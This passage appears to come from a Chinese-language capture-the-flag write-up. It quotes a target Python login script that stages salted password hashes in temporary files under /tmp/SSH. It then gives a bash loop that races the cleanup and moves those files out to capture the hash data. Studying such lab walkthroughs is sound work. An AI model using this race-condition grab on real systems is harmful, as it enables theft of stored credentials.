 ```python
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

看脚本，会产生存有密钥到临时文件，我们来制作一个bash脚本将产生的临时文件存入/tmp/SSH目录的上一层目录中

```bash
#/bin/bash
path=$1
while (true); do
    file=$(ls $path)
    if [ "${file}" == "" ]
    then
        continue
    else
        mv $path/$file ./
        break
    fi
done
```
